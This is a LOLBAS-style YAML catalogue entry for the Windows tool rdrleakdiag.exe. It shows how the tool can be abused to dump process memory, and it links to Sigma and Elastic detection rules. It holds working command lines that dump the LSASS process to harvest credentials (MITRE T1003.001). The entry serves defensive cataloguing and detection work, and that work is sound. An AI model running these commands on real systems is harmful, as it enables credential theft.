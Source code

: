 ```yaml
---
Name: rdrleakdiag.exe
Description: Microsoft Windows resource leak diagnostic tool
Author: 'John Dwyer'
Created: 2022-05-18
Commands:
  - Command: rdrleakdiag.exe /p 940 /o {PATH_ABSOLUTE:folder} /fullmemdmp /wait 1
    Description: Dump process by PID and create a dump file (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump process by PID.
    Category: Dump
    Privileges: User
    MitreID: T1003
    OperatingSystem: Windows
  - Command: rdrleakdiag.exe /p 832 /o {PATH_ABSOLUTE:folder} /fullmemdmp /wait 1
    Description: Dump LSASS process by PID and create a dump file (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump LSASS process.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003.001
    OperatingSystem: Windows
  - Command: rdrleakdiag.exe /p 832 /o {PATH_ABSOLUTE:folder} /fullmemdmp /snap
    Description: After dumping a process using /wait 1, subsequent dumps must use /snap (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump LSASS process mutliple times.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003.001
    OperatingSystem: Windows
Full_Path:
  - Path: c:\windows\system32\rdrleakdiag.exe
  - Path: c:\Windows\SysWOW64\rdrleakdiag.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_rdrleakdiag_process_dumping.yml
  - Elastic: https://www.elastic.co/guide/en/security/current/potential-credential-access-via-windows-utilities.html
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
Resources:
  - Link: https://twitter.com/0gtweet/status/1299071304805560321?s=21
  - Link: https://www.pureid.io/dumping-abusing-windows-credentials-part-1/
  - Link: https://github.com/LOLBAS-Project/LOLBAS/issues/84
Acknowledgement:
  - Person: Grzegorz Tworek
    Handle: '@0gtweet'
---
```

